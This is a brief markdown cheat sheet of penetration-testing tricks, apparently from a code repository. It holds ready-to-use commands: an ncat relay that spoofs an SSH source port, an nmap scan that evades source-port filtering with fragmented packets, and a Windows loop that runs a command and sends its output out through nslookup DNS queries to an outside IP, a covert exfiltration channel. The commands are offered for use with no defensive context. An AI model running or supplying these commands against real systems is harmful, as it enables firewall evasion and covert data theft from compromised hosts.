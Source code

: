 # Tricks (TODO Think of some better title)

## Fake Source Port with SSH using NC
`/usr/bin/ncat -l 1234 --sh-exec "ncat <target> <targetport> -p 4444"` With this create a local listener on 1234 that redirects traffic to target from port 4444. We can now ssh to localhost:1234 and land on target from source port 4444.

## Bypass source port filtering on nmap:

`/usr/bin/nmap <rhost> -Pn --source-port=<lport> -f`

## Grep for Ips

`grep -E "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"`

## Backchannel via nslookup

```bash cheat nslookup backchannel via nslookup
for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('<cmd>') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" <ip>
``` 


tags: misc